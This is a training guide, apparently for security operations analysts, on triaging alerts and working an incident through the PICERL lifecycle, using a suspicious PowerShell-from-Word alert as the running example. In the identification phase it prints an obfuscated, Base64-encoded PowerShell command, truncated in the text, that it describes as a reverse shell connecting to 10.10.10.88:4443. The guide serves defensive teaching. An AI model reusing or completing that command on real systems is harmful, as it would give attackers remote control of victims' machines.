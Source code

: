```yaml
---
layout: default
title: 06: The Anatomy of an Investigation
parent: The Guides
nav_order: 6
---
```


# Part 1: The First 5 Minutes: Triage and Prioritization

**Goal:** To learn how to perform "triage" on a new alert to quickly determine if it's a real fire, a false alarm, or something in between.

### Key Concepts (The Theory)

- **Triage:** The process of sorting new alerts based on severity and priority to ensure the most critical threats are handled first.
- **Alert Fidelity:** The trustworthiness of the alert source. An alert from your EDR for "Known Ransomware" is high-fidelity. An alert for "User logged in from a new country" is lower fidelity, as it could be legitimate travel.
- **Severity vs. Priority:**
  - **Severity:** How bad the event _could_ be (e.g., High, Medium, Low). This is often set by the tool.
  - **Priority:** The order in which _you_ should handle it. This is determined by the analyst, combining severity with business context.

### The Initial Triage Checklist

When a new alert hits your queue, you should quickly try to make an initial assessment. Run through these questions:

1.  **What is the alert?** (e.g., "PowerShell spawned from non-standard process," "Impossible travel detected.")
2.  **What is the asset?** Is it a domain controller, a web server, or a standard user's laptop? An alert on a critical server is always a higher priority.
3.  **Who is the user?** Is it a standard user, a developer, an executive (VIP), or a domain administrator? An alert on an admin account is extremely high priority because their credentials grant broad access.
4.  **What is the assigned severity?** (High, Medium, Low).

- **Analyst Tip:** The goal of triage is not to solve the case but to decide what to work on next. A `Medium` severity alert on a domain controller is a higher priority than a `High` severity alert on a test machine that's scheduled to be wiped tomorrow. Context is everything.

---

## Part 2: The Investigation Lifecycle (PICERL)

**Goal:** To use the industry-standard PICERL framework to structure an investigation from start to finish. PICERL stands for **P**reparation, **I**dentification, **C**ontainment, **E**radication, **R**ecovery, and **L**essons Learned.

### A Running Example: The Suspicious PowerShell Alert

Let's use a single alert and walk it through the lifecycle:
**The Alert:** `High Severity: powershell.exe spawned by WINWORD.EXE on workstation WKS-1337, user: bart.simpson`

---

### **Phase 1: Identification**

This is where you confirm if the alert is a **True Positive** (a real incident) or a **False Positive**. This phase uses a mini-loop of Observe-Orient-Decide-Act.

1.  **Observe (Gather the raw facts):**

    - **Host:** WKS-1337
    - **User:** bart.simpson
    - **Process:** `powershell.exe`
    - **Parent Process:** `WINWORD.EXE`
    - **From the EDR logs, you pull the full command line:** `powershell.exe -nop -w hidden -enc JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQAwAC4AOAA4ACIALAA0ADQANAAzACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUA MwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAe...`

2.  **Orient (Give the facts context):**

    - The parent process is Word. This is highly suspicious. Word should not be launching PowerShell. This is a classic indicator of a malicious macro. **(T1566.001: Spearphishing Attachment)**
    - The `-enc` flag means the command is Base64 encoded. This is a common technique for **Obfuscated Files or Information (T1027)**.
    - You decode the Base64 string. It reveals a PowerShell reverse shell script trying to connect to IP `10.10.10.88` on port `4443`. This is a **Reverse Shell (T1059.001: PowerShell)**.
    - You check the destination IP `10.10.10.88`. It's an internal, non-routable IP. This suggests the attacker may already have a foothold inside the network and this is an attempt at **Lateral Movement (TA0008)**.

3.  **Decide (Form a hypothesis):**
    - This is a **True Positive**. The user likely opened a malicious Word document, which executed a macro to launch a PowerShell reverse shell, a common technique for **Execution (TA0002)**, attempting to connect to an internal C2 server.

---

### **Phase 2: Containment**

**Goal:** Stop the bleeding! Prevent the attacker from causing more damage.

- **Action:** Based on your decision, you take immediate action. Using your EDR console, you trigger the **"Isolate Host"** function for `WKS-1337`. This uses the EDR agent to block all network connections on the workstation _except_ for the connection back to the EDR management server, so you can still investigate it remotely.
- **Action:** You also temporarily disable the `bart.simpson` user account in Active Directory / Entra ID to prevent the attacker from using stolen credentials to log in elsewhere.

---

### **Phase 3 & 4: Eradication and Recovery**

**Goal:** Remove the attacker from the environment and restore the system to a known-good state. This is often handled by a different team.

- **Eradication:** The original malicious file (`phish.docx`) is deleted. Any other files or persistence mechanisms created by the attacker are removed.
- **Recovery:** The workstation is wiped and re-imaged from a clean, golden image. This is the only way to be 100% sure the attacker is gone. The user account is re-enabled with a new password.

---

### **Phase 5: Lessons Learned**

**Goal:** Improve your defenses so this doesn't happen again.

- A post-incident meeting is held. Questions to ask:
  - How did the malicious email get past our email security gateway?
  - Why was the user able to run macros?
  - Did our EDR alert quickly enough?
- **Outcomes:** You might create a new rule in the email filter to block similar attachments, or push a new policy to disable macros for most users.

---

## Part 3: Case Management and Escalation

**Goal:** To understand the importance of good documentation and know when to ask for help.

### A Good Case Note

Your notes should be clear enough that a teammate can pick up the investigation right where you left off.

> **14:32 UTC:** Initial alert triage. High-severity alert for PowerShell spawned from WINWORD.EXE on WKS-1337 (user: bart.simpson). Given the TTP, immediately began investigation.
>
> **14:35 UTC:** Pulled command line from EDR. Confirmed use of Base64 encoding (`-enc` flag).
>
> **14:37 UTC:** Decoded Base64 payload. Revealed PowerShell reverse shell attempting connection to internal IP `10.10.10.88:4443`.
>
> **14:38 UTC:** **Declared incident.** This is a True Positive.
>
> .
> **14:39 UTC:** **Containment:** Isolated host WKS-1337 via EDR console. Temporarily disabled user `bart.simpson` in AD.
>
> **14:40 UTC:** **Escalation:** Escalated ticket to Tier 2 Incident Response team for eradication and recovery. Notified SOC lead.

### When to Escalate

- As soon as you **declare an incident** (confirm a True Positive).
- If the alert involves a VIP user or a critical system (e.g., a domain controller).
- If you are about to take a significant action you are unsure about.
- If you are stuck for more than 15-20 minutes on the "Identification" phase. It's better to get a second pair of eyes than to let an attacker dwell in the network.
